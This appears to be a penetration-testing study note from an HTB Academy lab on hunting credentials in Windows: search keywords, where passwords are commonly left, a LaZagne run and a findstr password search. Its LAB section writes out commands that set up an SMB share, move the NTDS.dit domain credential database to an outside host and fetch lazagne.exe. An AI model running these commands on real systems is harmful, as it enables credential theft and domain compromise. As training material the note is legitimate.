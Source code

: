 # Credential Hunting in windows

What might an IT admin be doing on a day-to-day basis & which of those tasks may require credentials?

key terms we can use :
Passwords	Passphrases	Keys
Username	User account	Creds
Users	Passkeys	Passphrases
configuration	dbcredential	dbpassword
pwd	Login	Credentials

## Search Tools

Use the windows default search tool

## Running Lazagne All

start lazagne.exe all

-vv option : see attempts to gather passwords

## Findstr

findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml

## Additionnal considerations

Passwords in Group Policy in the SYSVOL share
Passwords in scripts in the SYSVOL share
Password in scripts on IT shares
Passwords in web.config files on dev machines and IT shares
unattend.xml
Passwords in the AD user or computer description fields
KeePass databases --> pull hash, crack and get loads of access.
Found on user systems and shares
Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

# LAB

xfreerdp /u:Bob /p:"HTB_@cademy_stdnt!" /v:$TARGET

sudo impacket-smbserver share -smb2support /tmp/smbshare

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-786011/

cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.14.104\CompData 

cmd.exe /c copy \\10.10.15.45\share\lazagne.exe

xfreerdp /u:Bob /p:"HTB_@cademy_stdnt!" /v:$TARGET /drive:linux,/home/htb-ac-786011/
To access the directory, we can connect to \\tsclient\
